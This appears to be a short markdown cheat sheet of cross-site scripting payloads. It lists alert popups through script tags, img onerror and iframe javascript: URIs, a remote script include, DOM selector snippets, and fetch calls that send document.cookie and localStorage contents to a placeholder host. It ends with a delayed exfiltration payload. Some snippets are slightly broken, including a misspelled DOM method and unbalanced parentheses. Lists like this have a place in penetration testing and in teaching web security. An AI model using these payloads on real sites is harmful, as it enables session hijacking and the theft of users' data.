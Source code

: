 # Basic JavaScript popups
`<script>alert(0)</script>`
`<img src='x' onerror='alert(0)'>`
`<iframe src="javascript:alert(0)"></iframe>`
# Obtain a script from remote host - useful if there is a character limit
`<script src='http://127.0.0.1'></script>`
# Useful JavaScript to interact with specific in-page elements
`document.getElementsByTagName("Tag-name-here")`
`document.getElementsbyId("Id-here")`
`document.getElementsByClassName("Class-name-here")`
`document.getElementsByName("Name-here")`
`document.getElementsByTagNameNS("Tag-in-namespace-here")`
# Performing a get request to a third-party service
`fetch("http://127.0.0.1")`

Extracting cookies:
`fetch("http://127.0.0.1?x="+document.cookie)`

Ensuring the content is treated as a sting:
`fetch("http://127.0.0.1?x="+JSON.stringify(document.cookie))`

Encoding content which has characters that can mess with things:
`fetch("http://127.0.0.1?x="+encodeURIComponent(JSON.stringify(document.cookie)))`

# Odds N' Ends

Timeout function in case in-page elements load at different times
`<img src='x' onerror=setTimeout(function(){fetch("http://127.0.0.1"))}, 5000);'>`

Accessing local storage
`encodeURIComponent(JSON.stringify(localStorage))`